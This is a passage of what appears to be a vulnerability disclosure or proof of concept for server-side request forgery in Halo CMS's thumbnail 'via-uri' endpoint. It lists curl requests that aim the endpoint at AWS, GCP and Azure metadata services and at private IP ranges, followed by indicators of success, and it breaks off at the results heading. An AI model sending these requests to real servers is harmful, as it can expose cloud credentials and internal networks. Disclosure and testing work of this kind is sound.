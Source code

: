 #### Step 5: Cloud Metadata Server Testing

```bash
# AWS EC2 metadata (if running on AWS)
curl -v "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://169.254.169.254/latest/meta-data/&size=s"

# GCP metadata (if running on GCP)  
curl -v "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://metadata.google.internal/computeMetadata/v1/&size=s"

# Azure metadata (if running on Azure)
curl -v "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://169.254.169.254/metadata/instance&size=s"
```

#### Step 6: Advanced SSRF Techniques

```bash
# Test different protocols (should work)
curl -v "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=https://httpbin.org/get&size=s"

# Test private IP ranges
curl -v "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://192.168.1.1&size=s"
curl -v "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://10.0.0.1&size=s"

# Test redirect following behavior
curl -v "http://localhost:8090/apis/api.storage.halo.run/v1alpha1/thumbnails/-/via-uri?uri=http://httpbin.org/redirect/1&size=s"
```

#### What to Look For:

**✅ Successful SSRF Indicators:**
- `HTTP/1.1 302 Found` responses with `Location` headers
- Canary server receiving `GET` requests with `Range: bytes=0-0` header
- Different response times indicating network connectivity
- Error messages revealing internal service types

**❌ Blocked/Failed Attempts:**
- `HTTP/1.1 404 Not Found` responses
- No canary hits after 5+ seconds
- Connection timeout errors
- `HTTP/1.1 500 Internal Server Error`

---

## 💥 Proof of Concept Results

### Successful Exploitation

